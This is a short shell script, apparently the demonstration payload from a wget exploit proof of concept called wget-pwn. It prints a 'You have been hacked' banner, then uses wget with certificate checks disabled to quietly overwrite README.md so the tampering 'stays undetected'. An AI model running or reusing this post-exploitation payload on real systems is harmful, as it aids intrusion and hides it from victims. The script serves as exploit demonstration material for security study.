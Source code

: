 echo
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
echo "!          You have been hacked           !" 
echo "!                                         !"
echo "! https://github.com/markus-perl/wget-pwn !"
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"

echo "
_____.___.             .__   ._._.
\__  |   | ____ _____  |  |__| | |
 /   |   |/ __ \\__  \ |  |  \ | |
 \____   \  ___/ / __ \|   Y  \|\|
 / ______|\___  >____  /___|  /___
 \/           \/     \/     \/\/\/
 "

echo "Done. Patching downloaded file to stay undetected ..."
echo ""
wget --no-check-certificate -q "https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md" -O README.md 2>/dev/null

